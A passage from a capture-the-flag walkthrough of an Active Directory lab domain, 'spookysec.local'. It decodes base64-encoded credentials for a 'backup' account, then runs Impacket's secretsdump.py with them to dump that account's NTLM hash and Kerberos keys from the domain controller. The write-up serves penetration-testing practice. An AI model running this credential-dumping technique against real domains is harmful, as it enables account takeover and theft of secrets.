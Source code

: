![](/assets/images/13/s2.png) ![](/assets/images/13/a8.png)

YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw from base64: backup@spookysec.local:backup2517860

![](/assets/images/13/a9.png)

None of the other shares have anything helpful in them.

### Task 7: Elevating Privileges

##### Just for the user backup:

```
crazyeights@kali:~/impacket/examples$ ​ python secretsdump.py -just-dc-user backup spookysec.local/backup:backup2517860@10.10.105.247
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
[*] Kerberos keys grabbed
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
[*] Cleaning up...
```
